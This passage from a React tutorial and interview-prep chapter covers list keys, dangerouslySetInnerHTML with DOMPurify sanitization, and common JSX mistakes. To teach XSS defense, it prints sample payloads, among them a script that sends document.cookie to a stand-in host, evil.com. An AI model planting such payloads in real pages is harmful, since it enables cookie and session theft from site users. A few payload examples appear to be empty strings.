// Complex list with component
function ProductList({ products }) {
  return (
    <div className="product-grid">
      {products.map(product => (
        <ProductCard
          key={product.id}
          id={product.id}
          name={product.name}
          price={product.price}
          imageUrl={product.imageUrl}
          inStock={product.inStock}
        />
      ))}
    </div>
  );
}
```

---

### key Prop — Why Critical for Reconciliation

The `key` prop is React's mechanism for tracking list items across re-renders. It is **required** for list elements and must be **unique among siblings**.



```jsx
// ✅ Keys enable React to:
// 1. REUSE DOM nodes (don't destroy and recreate)
// 2. PRESERVE component state correctly
// 3. Make only MINIMAL DOM updates

// Example: Adding item to START of list
// Before: [B(key=2), C(key=3)]
// After:  [A(key=1), B(key=2), C(key=3)]

// With keys: React sees key=2 and key=3 still exist → REUSE them
// Just INSERT new key=1 at the beginning
// → 1 DOM operation

// Without keys: React compares by position
// Position 0: "" → "A" (update)
// Position 1: "B" → "B"... wait, it's now "A"? (update)  
// Position 2: new item (insert)
// → 3 DOM operations + potential state bugs
```

---

### Key Anti-Patterns

#### Anti-Pattern 1: Math.random() as key

```jsx
// ❌ TERRIBLE — New key on every render → remounts component every time
{items.map(item => (
  <Card key={Math.random()} data={item} />
))}
// Every render: all cards unmount and remount
// State inside Card is LOST on every render
// Defeats the entire purpose of keys
```

#### Anti-Pattern 2: Index as key (when it's wrong)

```jsx
// ❌ WRONG — Index as key with a sortable/filterable list
function SortableList({ items }) {
  const [sorted, setSorted] = useState(false);
  const displayItems = sorted ? [...items].sort(...) : items;

  return displayItems.map((item, index) => (
    // After sort: item "Banana" might now be at index 0 instead of index 1
    // React sees: "key 0 still exists" → reuses the fiber from old index 0
    // But the fiber's state (e.g., checkbox checked) stays with index 0!
    // State is now INCORRECTLY applied to a different item
    <ItemRow key={index} item={item} />
  ));
}
```

#### When Index as Key is ACCEPTABLE

```jsx
// ✅ Index as key is ONLY safe when ALL of these are true:
// 1. List is STATIC (never reorders)
// 2. List items have NO unique IDs
// 3. Items have NO internal state
// 4. List is not filtered

// Example: Static numbered steps
function Steps({ steps }) {
  return steps.map((step, index) => (
    // Safe: steps never reorder, no internal state, static list
    <Step key={index} number={index + 1} content={step} />
  ));
}
```

---

### Stable Keys — Best Practices

```jsx
// ✅ Best: Database/server-provided ID
{users.map(user => <UserCard key={user.id} user={user} />)}

// ✅ Good: UUID (if no server ID)
import { v4 as uuidv4 } from 'uuid';
// Generate at data creation time (not during render!)
const newItem = { id: uuidv4(), text: 'New todo' };

// ✅ Good: Natural unique identifier
{countries.map(country => (
  <CountryRow key={country.isoCode} country={country} />
  // ISO codes are unique and stable
))}

// ✅ Good: Composite key (when no single unique field)
{cartItems.map(item => (
  <CartItem
    key={`${item.productId}-${item.variantId}`}
    item={item}
  />
))}

// ✅ Good: Slug for content
{articles.map(article => (
  <ArticleCard key={article.slug} article={article} />
))}

// ❌ Bad: Index for dynamic lists
// ❌ Terrible: Math.random()
// ❌ Bad: Non-unique values (e.g., category name if duplicates exist)
```

---

### Filtering and Transforming Before Rendering

```jsx
function ProductGrid({ products, category, minPrice }) {
  // ✅ Derive filtered/sorted data before JSX
  const filteredProducts = products
    .filter(p => category === 'all' || p.category === category)
    .filter(p => p.price >= minPrice)
    .sort((a, b) => a.price - b.price);

  if (filteredProducts.length === 0) {
    return <EmptyState message="No products match your filters" />;
  }

  return (
    <div className="grid">
      {filteredProducts.map(product => (
        <ProductCard key={product.id} product={product} />
      ))}
    </div>
  );
}
```

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.8 dangerouslySetInnerHTML

<a id="98-dangerouslysetinnerhtml"></a>

### What is it?

`dangerouslySetInnerHTML` is React's replacement for the browser DOM's `innerHTML` property. It allows you to set raw HTML content directly into a DOM element, bypassing React's normal rendering and escaping.

The name is **intentionally scary** — React wants you to think twice before using it.

---

### When & Why to Use

```jsx
// Legitimate use cases:
// 1. Rendering HTML from a rich text editor (Quill, TinyMCE, etc.)
// 2. Displaying server-rendered HTML content (CMS content)
// 3. Rendering markdown converted to HTML
// 4. Embedding third-party HTML widgets

// ✅ Basic usage
function ArticleContent({ htmlContent }) {
  return (
    <div
      className="article-body"
      dangerouslySetInnerHTML={{ __html: htmlContent }}
    />
    // Note: Double curly braces:
    // Outer {} = JSX expression
    // Inner {} = object with __html key
  );
}

// Usage
<ArticleContent htmlContent="<h2>Article Title</h2><p>Content here <strong>bold</strong></p>" />
```

---

### XSS Security Warning

> [!IMPORTANT]
> **Never pass user-controlled input directly to `dangerouslySetInnerHTML` without sanitization.** This is the #1 XSS vulnerability in React apps.

```jsx
// ❌ DANGEROUS — XSS Attack possible
function Comment({ userComment }) {
  // If userComment = '<script>document.cookie = "stolen"</script>'
  // This will EXECUTE the script!
  return (
    <div dangerouslySetInnerHTML={{ __html: userComment }} />
  );
}

// ❌ Also dangerous
const attackerInput = '';
<div dangerouslySetInnerHTML={{ __html: attackerInput }} />
// The onerror handler EXECUTES!
```

---

### Sanitizing with DOMPurify

```bash
npm install dompurify
npm install --save-dev @types/dompurify  # If using TypeScript
```

```jsx
import DOMPurify from 'dompurify';

// ✅ Safe usage with DOMPurify sanitization
function SafeHTMLRenderer({ htmlContent }) {
  // Sanitize BEFORE rendering — removes dangerous tags and attributes
  const sanitizedHTML = DOMPurify.sanitize(htmlContent, {
    ALLOWED_TAGS: [
      'b', 'i', 'em', 'strong', 'a', 'p', 'ul', 'ol', 'li',
      'h1', 'h2', 'h3', 'br', 'blockquote', 'code', 'pre'
    ],
    ALLOWED_ATTR: ['href', 'target', 'rel', 'class'],
    FORCE_BODY: true,
  });

  return (
    <div
      className="safe-content"
      dangerouslySetInnerHTML={{ __html: sanitizedHTML }}
    />
  );
}

// ✅ For blog/CMS content (more permissive)
function BlogPost({ content }) {
  const clean = DOMPurify.sanitize(content);
  // DOMPurify with defaults removes scripts but allows most HTML
  return <article dangerouslySetInnerHTML={{ __html: clean }} />;
}

// ✅ Simple markdown-to-HTML with sanitization
import { marked } from 'marked';

function MarkdownRenderer({ markdown }) {
  const rawHTML = marked.parse(markdown);
  const cleanHTML = DOMPurify.sanitize(rawHTML);
  
  return (
    <div
      className="markdown-body"
      dangerouslySetInnerHTML={{ __html: cleanHTML }}
    />
  );
}
```

---

### 🧠 Hinglish Intuition

`dangerouslySetInnerHTML` ek loaded gun hai — dangerous, lekin sometimes zaroor hota hai. Normally React tumhara content escape karta hai (jaise security guard jo check karta hai kya andar aa raha hai). `dangerouslySetInnerHTML` bolna hai "guard ko bypass karo, directly andar jaane do." Agar tumne sanitize nahi kiya, hacker ka script seedha browser mein chalta hai. DOMPurify ek scanner hai jo HTML se weapons (scripts, event handlers) nikalta hai — safe content ko jaane deta hai.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 9.9 JSX Gotchas & Common Mistakes

<a id="99-jsx-gotchas-and-common-mistakes"></a>

### Gotcha 1: Rendering 0 Bug (The && Problem)

This is the **most common JSX bug** in interviews and real code.

```jsx
// ❌ BUG: When count = 0, renders "0" on screen
function Cart({ count }) {
  return (
    <div>
      <h1>Shopping Cart</h1>
      {count && <p>You have {count} items</p>}
      {/* When count = 0: 0 is falsy, so short-circuit...
          BUT React renders 0 as text! Not nothing! */}
    </div>
  );
}

// Why? Because:
// false && <Something /> → false → React ignores
// 0 && <Something />     → 0     → React renders "0" (it's a number!)
// "" && <Something />    → ""    → React renders nothing (empty string)
// null && <Something />  → null  → React renders nothing
// undefined && <Something /> → undefined → React renders nothing

// ✅ Fix 1: Convert to boolean with !!
{!!count && <p>You have {count} items</p>}

// ✅ Fix 2: Explicit boolean comparison
{count > 0 && <p>You have {count} items</p>}

// ✅ Fix 3: Ternary
{count ? <p>You have {count} items</p> : null}

// ✅ Fix 4: Boolean() conversion
{Boolean(count) && <p>You have {count} items</p>}
```

---

### Gotcha 2: Rendering false/undefined/null Behavior

```jsx
// What React renders for different falsy values:
function FalsyDemo() {
  return (
    <div>
      {false}      {/* → nothing ✅ */}
      {null}       {/* → nothing ✅ */}
      {undefined}  {/* → nothing ✅ */}
      {true}       {/* → nothing ✅ (booleans don't render) */}
      {0}          {/* → "0" ❌ renders as text */}
      {NaN}        {/* → "NaN" ❌ renders as text */}
      {""}         {/* → nothing ✅ empty string = empty */}
    </div>
  );
}

// Practical implication:
function ShowTrueValue() {
  return (
    <div>
      {/* ✅ If you want to SHOW the word "true" or "false": */}
      <p>{String(true)}</p>   {/* → "true" */}
      <p>{String(false)}</p>  {/* → "false" */}
      <p>{true.toString()}</p> {/* → "true" */}

      {/* ✅ If you want to show a boolean value in debug: */}
      <p>Is Active: {`${isActive}`}</p>
    </div>
  );
}
```

---

### Gotcha 3: Object Not Valid as React Child

```jsx
// ❌ ERROR: "Objects are not valid as React child"
// You cannot render a plain JS object directly

const user = { name: 'Alice', age: 25 };
const date = new Date();

function BadRender() {
  return (
    <div>
      {user}        {/* ❌ Error! Can't render an object */}
      {date}        {/* ❌ Error! Date is an object */}
      {{a: 1}}      {/* ❌ Error! Object literal */}
    </div>
  );
}

// ✅ Fix: Access specific properties or convert to string
function GoodRender() {
  const user = { name: 'Alice', age: 25 };
  const date = new Date();

  return (
    <div>
      {user.name}               {/* ✅ Render a string property */}
      {user.age}                {/* ✅ Render a number property */}
      {date.toLocaleDateString()} {/* ✅ Convert to string */}
      {date.toString()}         {/* ✅ Convert to string */}
      {JSON.stringify(user)}    {/* ✅ Debug: show full object as string */}
    </div>
  );
}
```

---

### Gotcha 4: Map Without Return (Arrow Function)

```jsx
// ❌ BUG: Arrow function with curly braces — implicit return GONE
// Renders nothing — no error, just empty list
{items.map(item => {
  <li key={item.id}>{item.name}</li>  // ← This is a statement, not returned!
})}

// Why? Arrow function with {} requires explicit return:
// item => { ... }   → function body, needs `return`
// item => (...)     → implicit return
// item => <jsx />   → implicit return (no parens needed for single line)

// ✅ Fix 1: Explicit return
{items.map(item => {
  return <li key={item.id}>{item.name}</li>;
})}

// ✅ Fix 2: Parentheses (implicit return, multi-line)
{items.map(item => (
  <li key={item.id}>{item.name}</li>
))}

// ✅ Fix 3: Single line (no parens needed)
{items.map(item => <li key={item.id}>{item.name}</li>)}
```

---

### Gotcha 5: Spreading Props Incorrectly

```jsx
// ❌ Spreading entire data object including non-DOM props
function Button({ onClick, children, userData }) {
  // userData = { name: 'Alice', isAdmin: true, preferences: {...} }
  return <button {...userData} onClick={onClick}>{children}</button>;
  // ❌ Passes name, isAdmin, preferences as DOM attributes
  // React Warning: Unknown prop `isAdmin` on <button> tag
}

// ✅ Only spread valid HTML attributes
function Button({ onClick, children, className, disabled, type = 'button' }) {
  const buttonProps = { onClick, className, disabled, type };
  return <button {...buttonProps}>{children}</button>;
}

// ✅ Rest pattern to separate component props from HTML props
function Button({ onClick, children, variant, size, ...htmlProps }) {
  // variant and size are React-specific, not DOM attributes
  return (
    <button
      {...htmlProps}  // Only DOM-valid props spread here
      onClick={onClick}
      className={`btn btn--${variant} btn--${size}`}
    >
      {children}
    </button>
  );
}
```

---

### Gotcha 6: Key Prop Not Accessible in Component

```jsx
// ❌ MISUNDERSTANDING: key is NOT a prop inside the component
function ListItem({ key, label }) {
  // key is undefined here! key is consumed by React's reconciler
  // It never reaches your component's props
  console.log(key); // → undefined
  return <li>{label}</li>;
}

// Usage:
<ListItem key="item-1" label="First" />

// ✅ If you need the key value inside the component, pass it separately:
<ListItem key={item.id} id={item.id} label={item.label} />

function ListItem({ id, label }) {
  console.log(id); // ✅ Works!
  return <li data-id={id}>{label}</li>;
}
```

---

### Complete JSX Gotchas Reference

```jsx
// All common mistakes in one place:

function GotchaReference() {
  const count = 0;
  const user = { name: 'Alice' };
  const items = [];

  return (
    <div>
      {/* 1. ❌ 0 renders as text */}
      {count && <span>Items: {count}</span>}
      {/* ✅ Fix */}
      {count > 0 && <span>Items: {count}</span>}

      {/* 2. ❌ Object as child */}
      {/* {user} */}
      {/* ✅ Fix */}
      {user.name}

      {/* 3. ❌ Map without return */}
      {/* {items.map(i => { <li>{i}</li> })} */}
      {/* ✅ Fix */}
      {items.map(i => <li key={i}>{i}</li>)}

      {/* 4. ❌ class instead of className */}
      {/* <div class="box"> */}
      {/* ✅ Fix */}
      <div className="box">content</div>

      {/* 5. ❌ Unclosed self-closing tags */}
      {/* <input type="text"> */}
      {/* ✅ Fix */}
      <input type="text" />

      {/* 6. ❌ String style */}
      {/* <div style="color: red"> */}
      {/* ✅ Fix */}
      <div style={{ color: 'red' }}>styled</div>
    </div>
  );
}
```

---

### 🧠 Hinglish Intuition

JSX gotchas ek tricky exam jaisi hain. Sabse important yaad rakhne wali baat: **`0` renders!** Yeh sab developers ko pehli baar shock karta hai. `false`, `null`, `undefined` safe hain — woh kuch nahi render karte. Lekin `0` ek number hai, aur React numbers ko render karta hai. Isliye `count && <Badge>` likhna dangerous hai jab count 0 ho sakta hai.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 💡 Interview Questions

<a id="-interview-questions"></a>

### Conceptual Questions

---

**Q1. What is JSX and what does it compile to?**

**Answer:**
JSX (JavaScript XML) is a **syntax extension** for JavaScript that allows writing HTML-like markup inside JavaScript. It is not valid JavaScript — it must be compiled before the browser runs it.

Babel or SWC compiles JSX to `React.createElement()` calls (classic transform) or `_jsx()` calls from `react/jsx-runtime` (new transform, React 17+).

```jsx
// JSX:
const element = <h1 className="title">Hello {name}</h1>;

// Compiled (classic):
const element = React.createElement("h1", { className: "title" }, "Hello ", name);

// Compiled (new transform):
const element = _jsx("h1", { className: "title", children: ["Hello ", name] });
```

The result is a plain JavaScript object (React element) — not a DOM node.

---

**Q2. What is the difference between the Classic JSX Transform and the New JSX Transform?**

**Answer:**

| | Classic (React ≤16) | New (React 17+) |
|--|---------------------|-----------------|
| **Import required** | `import React from 'react'` (mandatory) | No import needed for JSX |
| **Compiles to** | `React.createElement()` | `_jsx()` from `react/jsx-runtime` |
| **children** | Separate arguments | Inside props object |
| **Configured by** | `@babel/preset-react` default | `runtime: 'automatic'` in Babel, default in Vite |

**Why it matters:** Before React 17, you'd get `"React is not defined"` if you forgot to import React even if you never used React directly. The new transform eliminates this requirement.

---

**Q3. Why is it `className` and not `class` in JSX?**

**Answer:**
Because JSX is **JavaScript**, and `class` is a **reserved keyword** in JavaScript (used for ES6 class declarations). Using `class` as an attribute name would cause a syntax conflict.

React chose `className` because it matches the browser's DOM property name — `element.className` (not `element.class`). JSX attribute names map to DOM property names, not HTML attribute names.

Similarly, `for` is reserved (used in for loops), so JSX uses `htmlFor` instead.

---

**Q4. Explain the `0` rendering bug in React. How do you fix it?**

**Answer:**
When you use `&&` for conditional rendering and the left side evaluates to `0` (a falsy number), React renders `0` as text — because React renders numbers to the DOM.

```jsx
// Bug:
{count && <Badge>{count}</Badge>}
// When count = 0: evaluates to 0, React renders "0"

// Why? false && x → false → React ignores
//       0 && x     → 0     → React renders "0" (it's a number!)
```

**Fixes:**
1. `{count > 0 && <Badge>{count}</Badge>}` — explicit comparison
2. `{!!count && <Badge>{count}</Badge>}` — double negation to boolean
3. `{count ? <Badge>{count}</Badge> : null}` — ternary with null

---

**Q5. What is the purpose of the `key` prop in React list rendering?**

**Answer:**
The `key` prop helps React's reconciler **identify which items in a list changed, were added, or removed** across re-renders.

Without keys, React compares items by **position** (index 0 to index 0, index 1 to index 1, etc.). This is inefficient and causes bugs when items are reordered — component state stays "stuck" to positions instead of actual items.

With unique, stable keys, React can:
1. **Reuse** existing DOM nodes for items that didn't change
2. **Correctly preserve** component state for each item
3. Make only **minimal DOM mutations** (insert/delete specific items)

Keys must be unique among siblings, stable across renders, and not based on array index (unless the list is static and never reorders).

---

**Q6. What values can you render in JSX? What cannot be rendered?**

**Answer:**

**Can render:** Strings, Numbers, JSX elements, Arrays of JSX elements, Fragments, `null`, `undefined`, `false`, `true` (these last 4 render nothing)

**Cannot render directly:**
- **Plain JavaScript objects** → Error: "Objects are not valid as React child"
- **Functions** → They won't render (no error, just nothing shown)
- **Symbols** → Error

```jsx
// ✅ These render:
<div>{42}</div>             {/* "42" */}
<div>{"hello"}</div>        {/* "hello" */}
<div>{null}</div>           {/* nothing */}
<div>{false}</div>          {/* nothing */}
<div>{[<li key="1">a</li>]}</div>  {/* list item */}

// ❌ These error or don't render:
<div>{{ name: 'Alice' }}</div>   {/* Error */}
<div>{Symbol('test')}</div>      {/* Error */}
```

---

**Q7. When would you use `<React.Fragment key={...}>` vs the `<>` shorthand?**

**Answer:**
The `<>` shorthand cannot accept any props, including the `key` prop. You must use `<React.Fragment key={...}>` when rendering **a list of fragments** — for example, when each list item consists of multiple sibling elements.

```jsx
// Use <Fragment key> when mapping and returning multiple elements per item:
{items.map(item => (
  <Fragment key={item.id}>
    <dt>{item.term}</dt>
    <dd>{item.definition}</dd>
  </Fragment>
))}
```

Use `<>` for all other cases where no key is needed.

---

**Q8. What is `dangerouslySetInnerHTML` and when is it appropriate to use?**

**Answer:**
`dangerouslySetInnerHTML` is React's API for setting raw HTML content directly (equivalent to `element.innerHTML`). React normally escapes all content to prevent XSS attacks. This prop bypasses that escaping.

**Appropriate use cases:**
- Rendering HTML from a CMS or rich text editor
- Displaying markdown-converted HTML
- Embedding trusted third-party HTML widgets

**Key rules:**
1. **Never** use it with unsanitized user input
2. **Always** sanitize with a library like **DOMPurify** before rendering
3. The prop takes an object: `{{ __html: sanitizedContent }}`

The intentionally verbose name (`dangerously`) is a reminder to think before using it.

---

### Scenario-Based Questions

---

**Q9. A developer writes the following and reports items don't render. What's wrong?**

```jsx
{items.map(item => {
  <ProductCard key={item.id} product={item} />
})}
```

**Answer:**
The arrow function uses **curly braces** (`{}`), creating a function body — which requires an explicit `return` statement. Without `return`, the function returns `undefined` implicitly, so nothing renders.

**Fixes:**
```jsx
// Fix 1: Add return
{items.map(item => {
  return <ProductCard key={item.id} product={item} />;
})}

// Fix 2: Use parentheses (implicit return)
{items.map(item => (
  <ProductCard key={item.id} product={item} />
))}
```

---

**Q10. Why does this component have a potential XSS vulnerability?**

```jsx
function Comments({ comments }) {
  return (
    <div>
      {comments.map(comment => (
        <div
          key={comment.id}
          dangerouslySetInnerHTML={{ __html: comment.text }}
        />
      ))}
    </div>
  );
}
```

**Answer:**
`comment.text` is user-generated content rendered directly as raw HTML without sanitization. An attacker could submit a comment like:
```
<script>fetch('https://evil.com/steal?c='+document.cookie)</script>
```

Or more subtle: ``

**Fix:**
```jsx
import DOMPurify from 'dompurify';

function Comments({ comments }) {
  return (
    <div>
      {comments.map(comment => (
        <div
          key={comment.id}
          dangerouslySetInnerHTML={{
            __html: DOMPurify.sanitize(comment.text)
          }}
        />
      ))}
    </div>
  );
}
```

---

### Output-Based Questions

---

**Q11. What does the following render?**

```jsx
function App() {
  const count = 0;
  const name = null;
  const active = false;
  const score = NaN;

  return (
    <div>
      <span>{count}</span>
      <span>{name}</span>
      <span>{active}</span>
      <span>{score}</span>
    </div>
  );
}
```

**Answer:**
```html
<div>
  <span>0</span>      <!-- count = 0 renders as "0" -->
  <span></span>        <!-- null renders nothing -->
  <span></span>        <!-- false renders nothing -->
  <span>NaN</span>     <!-- NaN renders as "NaN" -->
</div>
```

The `0` and `NaN` outputs are common interview gotchas — they render because they are numbers.

---

👉 <a href="#chapter-index-table-9">Go to Top 🔝</a>

---

## 🧪 Practice Problems

<a id="-practice-problems"></a>

### Coding Questions

---

**1. Convert this invalid JSX to valid JSX**

```jsx
// ❌ Fix all errors in this component:
function UserForm() {
  return (
    <form class="user-form">
      <label for="username">Username</label>
      <input type="text" id="username">
      <div style="margin-top: 10px; display: flex">
        <button type="submit" onclick={handleSubmit}>Submit</button>
      </div>
    </form>
    <p>Fill out the form above</p>
  );
}
```

**Solution:**

```jsx
// ✅ Fixed version:
function UserForm({ handleSubmit }) {
  return (
    <>  {/* Fragment — two root elements need wrapping */}
      <form className="user-form">  {/* class → className */}
        <label htmlFor="username">Username</label>  {/* for → htmlFor */}
        <input type="text" id="username" />  {/* self-closing */}
        <div style={{ marginTop: '10px', display: 'flex' }}>  {/* style as object */}
          <button type="submit" onClick={handleSubmit}>  {/* onclick → onClick */}
            Submit
          </button>
        </div>
      </form>
      <p>Fill out the form above</p>
    </>
  );
}
```

---

**2. Fix the 0 rendering bug and the map-without-return bug**

```jsx
// ❌ Two bugs:
function Dashboard({ notifications, tasks }) {
  return (
    <div>
      {notifications.length && (
        <NotificationBell count={notifications.length} />
      )}

      <ul>
        {tasks.map(task => {
          <TaskItem key={task.id} task={task} />
        })}
      </ul>
    </div>
  );
}
```

**Solution:**

```jsx
// ✅ Fixed:
function Dashboard({ notifications, tasks }) {
  return (
    <div>
      {/* Fix 1: 0 rendering bug — explicit boolean check */}
      {notifications.length > 0 && (
        <NotificationBell count={notifications.length} />
      )}

      <ul>
        {/* Fix 2: map without return — add parentheses for implicit return */}
        {tasks.map(task => (
          <TaskItem key={task.id} task={task} />
        ))}
      </ul>
    </div>
  );
}
```

---

**3. Implement all 4 conditional rendering patterns for a data-fetching state**

```jsx
import { useState } from 'react';

// Simulate an API response state
const STATES = {
  IDLE: 'idle',
  LOADING: 'loading',
  SUCCESS: 'success',
  ERROR: 'error',
  EMPTY: 'empty',
};

// Pattern 1: Ternary (simple states)
function WithTernary({ status }) {
  return (
    <div>
      {status === STATES.LOADING ? (
        <div className="spinner">⏳ Loading...</div>
      ) : (
        <div className="content">✅ Content loaded</div>
      )}
    </div>
  );
}

// Pattern 2: Early return (guard clauses — cleanest for multiple states)
function WithEarlyReturn({ status, data, error }) {
  if (status === STATES.LOADING) return <div>⏳ Loading...</div>;
  if (status === STATES.ERROR) return <div>❌ Error: {error}</div>;
  if (status === STATES.EMPTY) return <div>📭 No data found</div>;
  if (!data) return null;

  return (
    <div>
      <h2>✅ Data Loaded</h2>
      <pre>{JSON.stringify(data, null, 2)}</pre>
    </div>
  );
}

// Pattern 3: Switch render function
function renderStatus(status, data, error) {
  switch (status) {
    case STATES.IDLE:    return <div>💤 Idle — click Fetch</div>;
    case STATES.LOADING: return <div>⏳ Loading...</div>;
    case STATES.ERROR:   return <div>❌ {error}</div>;
    case STATES.SUCCESS: return <div>✅ {JSON.stringify(data)}</div>;
    case STATES.EMPTY:   return <div>📭 Empty</div>;
    default:             return null;
  }
}

function WithSwitch({ status, data, error }) {
  return <div>{renderStatus(status, data, error)}</div>;
}

// Pattern 4: IIFE
function WithIIFE({ status, data }) {
  return (
    <div>
      {(() => {
        if (status === STATES.LOADING) return <div>Loading...</div>;
        if (status === STATES.SUCCESS && data.length > 0) return <DataList data={data} />;
        return <EmptyState />;
      })()}
    </div>
  );
}

// Demo App
function App() {
  const [status, setStatus] = useState(STATES.IDLE);
  const [data, setData] = useState(null);

  const simulate = (newStatus) => {
    setStatus(newStatus);
    if (newStatus === STATES.SUCCESS) setData([{ id: 1, name: 'React' }]);
  };

  return (
    <div style={{ padding: '20px', fontFamily: 'sans-serif' }}>
      <h1>Conditional Rendering Patterns</h1>
      <div style={{ display: 'flex', gap: '8px', marginBottom: '20px' }}>
        {Object.values(STATES).map(s => (
          <button key={s} onClick={() => simulate(s)}>{s}</button>
        ))}
      </div>
      <h3>Early Return Pattern:</h3>
      <WithEarlyReturn status={status} data={data} error="Fetch failed" />
      <h3>Switch Pattern:</h3>
      <WithSwitch status={status} data={data} error="Fetch failed" />
    </div>
  );
}

export default App;
```

---

**4. Build a safe HTML renderer using dangerouslySetInnerHTML + DOMPurify**

```jsx
import DOMPurify from 'dompurify';

const ALLOWED_TAGS = ['p', 'b', 'i', 'em', 'strong', 'a', 'ul', 'ol', 'li', 'h2', 'h3', 'br', 'blockquote'];
const ALLOWED_ATTR = ['href', 'target', 'rel'];

function SafeHTMLRenderer({ content, allowedTags = ALLOWED_TAGS }) {
  if (!content) return null;

  const sanitized = DOMPurify.sanitize(content, {
    ALLOWED_TAGS: allowedTags,
    ALLOWED_ATTR,
    ALLOW_DATA_ATTR: false,
  });

  if (!sanitized) {
    return <p style={{ color: 'red' }}>Content was completely sanitized (unsafe).</p>;
  }

  return (
    <div
      className="safe-html"
      dangerouslySetInnerHTML={{ __html: sanitized }}
    />
  );
}

// Test component
function App() {
  const safeContent = '<p>Hello <strong>World</strong>! Visit <a href="https://react.dev">React</a>.</p>';
  const maliciousContent = '<p>Safe text</p><script>alert("XSS!")</script>';

  return (
    <div style={{ padding: '20px', fontFamily: 'sans-serif' }}>
      <h1>Safe HTML Renderer</h1>

      <h3>Safe Content:</h3>
      <SafeHTMLRenderer content={safeContent} />

      <h3>Malicious Content (sanitized):</h3>
      <SafeHTMLRenderer content={maliciousContent} />

      <h3>Raw malicious input was:</h3>
      <code style={{ backgroundColor: '#fee', padding: '8px', display: 'block' }}>
        {maliciousContent}
      </code>
    </div>
  );
}

export default App;
```

---

**5. Implement a Table component using Fragments to maintain valid HTML structure**

```jsx
import { Fragment } from 'react';

// Each row returns 2 cells — must use Fragment to avoid invalid DOM
function TableRowData({ person }) {
  return (
    <Fragment>
      <td style={{ padding: '8px 12px', borderBottom: '1px solid #eee' }}>
        {person.name}
      </td>
      <td style={{ padding: '8px 12px', borderBottom: '1px solid #eee' }}>
        {person.role}
      </td>
      <td style={{ padding: '8px 12px', borderBottom: '1px solid #eee' }}>
        <span style={{
          backgroundColor: person.active ? '#dcfce7' : '#fee2e2',
          color: person.active ? '#166534' : '#991b1b',
          padding: '2px 8px',
          borderRadius: '12px',
          fontSize: '12px',
        }}>
          {person.active ? 'Active' : 'Inactive'}
        </span>
      </td>
    </Fragment>
  );
}

function PeopleTable({ people }) {
  return (
    <table style={{ borderCollapse: 'collapse', width: '100%', fontFamily: 'sans-serif' }}>
      <thead>
        <tr style={{ backgroundColor: '#f8fafc' }}>
          <th style={{ padding: '12px', textAlign: 'left' }}>Name</th>
          <th style={{ padding: '12px', textAlign: 'left' }}>Role</th>
          <th style={{ padding: '12px', textAlign: 'left' }}>Status</th>
        </tr>
      </thead>
      <tbody>
        {people.map(person => (
          <tr key={person.id}>
            {/* Fragment key used in parent tr, so inner Fragment doesn't need key */}
            <TableRowData person={person} />
          </tr>
        ))}
      </tbody>
    </table>
  );
}

function App() {
  const team = [
    { id: 1, name: 'Arjun Sharma', role: 'Frontend Developer', active: true },
    { id: 2, name: 'Priya Patel', role: 'Backend Engineer', active: true },
    { id: 3, name: 'Rahul Singh', role: 'DevOps Engineer', active: false },
    { id: 4, name: 'Anjali Kumar', role: 'UI Designer', active: true },
  ];

  return (
    <div style={{ padding: '20px' }}>
      <h1>Team Directory</h1>
      <PeopleTable people={team} />
    </div>
  );
}

export default App;
```

---

### Theory Questions

---

**T1. Explain why JSX requires a single root element. How do Fragments solve this without adding extra DOM nodes?**

**Answer:**
JSX compiles to `React.createElement()` calls. A function can only return a single value. Two adjacent JSX elements would compile to two separate function calls — which is not a valid return value in JavaScript.

```jsx
// Two elements = two separate expressions:
return (
  React.createElement('h1', null, 'Title'),  // Expression 1
  React.createElement('p', null, 'Para')     // Expression 2 — invalid!
);
```

**Fragments** compile to `React.createElement(React.Fragment, null, ...children)`. This wraps multiple elements in a single call that React recognizes as a transparent container — it groups children without producing any actual DOM node.

---

**T2. What is the difference between an expression and a statement? Why can you only use expressions inside JSX `{}`?**

**Answer:**
- **Expression:** Evaluates to a value. Examples: `42`, `name`, `a + b`, `cond ? x : y`, `arr.map(...)`
- **Statement:** Performs an action, does not produce a value. Examples: `if`, `for`, `const x = 5`, `function f(){}`

JSX `{}` is designed to **embed a value** into the JSX tree. Statements don't produce values — they can't be embedded. This is why `if` and `for` don't work inside JSX. The workarounds (ternary, `&&`, `.map()`) are all **expressions** that return values.

---

**T3. When is it safe to use array index as a key prop?**

**Answer:**
Using array index as key is ONLY safe when ALL four conditions are met:
1. The list is **static** — never reorders or filters
2. Items have **no unique ID** available
3. Items have **no internal state** (no controlled inputs, counters inside)
4. The list **never changes** in length

If any of these conditions is false, using index causes React to incorrectly associate state/fiber with the wrong item after reordering.

**Practical rule:** If you got the data from a server/database, use the server-provided ID. If you're generating the list, generate stable IDs at creation time.

---

**T4. Explain `dangerouslySetInnerHTML.__html` — why the double underscores?**

**Answer:**
The `__html` property (double underscore prefix and suffix) is a deliberate design choice by React. Double underscores conventionally signal that this is an **internal, intentionally dangerous, low-level API** that should make you pause before using it.

React requires you to pass an object `{ __html: content }` instead of just a string `content` so that you explicitly acknowledge you're doing something unsafe. It's a friction mechanism — if you're typing `__html`, you've thought about it at least twice.

The same name cannot easily appear in autocomplete or accident — it's long and awkward on purpose.

---

**T5. What happens if two siblings in a list have the same key?**

**Answer:**
React will log a development warning: `Warning: Encountered two children with the same key, 'X'. Keys should be unique so that components maintain their identity across updates.`

The behavior is undefined — React may render only one of the items, incorrectly match items during reconciliation, or produce other unexpected results. Keys only need to be unique **among siblings** (within the same parent), not globally unique across the entire app.

---

### Machine Coding Problems

---

**M1. Build a JSX-powered FAQ Accordion**

See the Mini Project below for full implementation.

---

**M2. Build a "JSX Expression Playground" — a component that demonstrates all JSX embedding rules**

```jsx
import { useState } from 'react';

const EXAMPLES = [
  {
    id: 1,
    title: 'Variable',
    expression: 'userName',
    description: 'Render a JavaScript variable',
  },
  {
    id: 2,
    title: 'Arithmetic',
    expression: 'price * 1.18',
    description: 'Expressions are evaluated',
  },
  {
    id: 3,
    title: 'Ternary',
    expression: 'isActive ? "Active" : "Inactive"',
    description: 'Conditional expression',
  },
  {
    id: 4,
    title: 'Method Call',
    expression: 'name.toUpperCase()',
    description: 'Method calls work',
  },
  {
    id: 5,
    title: 'Template Literal',
    expression: '`Hello, ${name}!`',
    description: 'Template literals work',
  },
];

function ExpressionCard({ example, isActive, onClick }) {
  return (
    <div
      onClick={onClick}
      style={{
        border: `2px solid ${isActive ? '#007bff' : '#e0e0e0'}`,
        borderRadius: '8px',
        padding: '12px',
